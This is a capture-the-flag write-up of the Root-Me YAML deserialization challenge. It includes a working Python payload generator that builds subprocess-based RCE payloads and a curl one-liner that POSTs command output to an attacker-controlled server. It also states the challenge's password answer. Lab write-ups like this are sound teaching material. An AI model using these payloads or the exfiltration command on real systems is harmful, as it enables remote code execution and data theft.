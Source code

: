 # Yaml - Deserialization

When you open the chall, this is what you will see

![anh1](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/YamlDe_1.PNG)

Take a look at the HTTP request which we sent to the server, you will see that there's nothing seems to be injectable. However, if you look at the url, you will notice that the path of it is encoded in base64. The url is `http://challenge01.root-me.org:59071/eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg`. Decode the `eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg` part of the url and this is what you will get: `yaml: We are currently initializing our new site ! `. Try to change the part behind `yaml:` to `Hello world`, then base64 encode it and paste it in the url to check if we can inject the url or not.

![anh2](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/YamlDe_2.PNG)

So we know that the url is injectable, it's yaml deserialization attack. Please read [this document](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter) to understand what yaml deserialization is. From the document, we know that this attack can lead to RCE and we can leverage that RCE to steal the admin password.

Why do we have to use RCE when we can just exploit it directly? Because when you execuse the command with `subprocess`, you will get a line like `<subprocess.Popen object at 0x7fa4b29509a0>` first, follow after that is the result of you command. But the challenge is only return a first line when you executed the code, so we must find another way.

![anh3](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/YamlDe_3.PNG)

Thank to this [Python deserialization attack payload generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator), I can write my own code to exploit this chall. This challenge requires the payload to have the `yaml:` part before the payload, so we can't just use the original Github repos above. This is my code to exploit this challenge:

```python

import yaml
import subprocess
import base64


class Payload(object):
    def __init__(self, payload):
        self.payload = payload

    def __reduce__(self):
        return (subprocess.Popen, (self.payload,))


data = input("Enter RCE command: ")
if "\"" in data:
	quotesData = base64.b64decode("ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSAhIXB5dGhvbi90dXBsZQogIC0gcHl0aG9uCiAgLSAtYwogIC0gIl9faW1wb3J0X18oJ29zJykuc3lzdGVtKHN0cihfX2ltcG9ydF9fKCdiYXNlNjQnKS5iNjRkZWNvZGUoJw==") + \
        base64.b64encode(bytes(data, 'utf-8')) + base64.b64decode("JykuZGVjb2RlKCkpKSI=")
	newData = "yaml: " + quotesData.decode('utf-8')
	print(base64.b64encode(bytes(newData,'utf-8')))
else:
	ctf = {"yaml": Payload(tuple(data.split(" ")))}
	obj = yaml.dump(ctf)
	print(obj)
	newData = base64.b64encode(bytes(obj, 'utf-8'))
	print(newData)

```

I will briefly explain the above code.  My code will generate the payload to exploit the challenge with the formula `yaml: + payload`. If the payload have double quotes in it, we have to make a payload manually (not using `yaml.dump()`) because I haven't find out how to make a double quotes payload working with `yaml.dump()`. You can debug the `if` condition to understand why I write the code like that.

With the code above, we just need to enter the command we want to use and it will automatically generate the payload. I have already tried to use reverse shell, but whenever the server connect to my port, it automatically disconnect after a few seconds later. So I switch to another method, which is send data to a third-party server using `curl`.

The command I used to exploit is `curl -i -H "Content-Type: text/plain" -X POST --data "$(<command>)" <yourserver>`. Now I will explain why I write the command like that.

In linux, you can execute a linux command using `$()`. Using this method, you can send execute the command and send it to a third-party server with `curl`. So if I use `curl -i -H "Content-Type: text/plain" -X POST --data "$(ls -a)" `, I will list all the directories in the server and send it to my server.

![anh4](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/YamlDe_4.PNG)

Go to my server to check if anything happened

![anh5](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/YamlDe_5.PNG)

Good. Then read the `.password` file and we are done.

![anh6](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/Yaml_De6.PNG)

The password is in the body of the request. It is `561385a008727f860eda1afb7f8eba76`.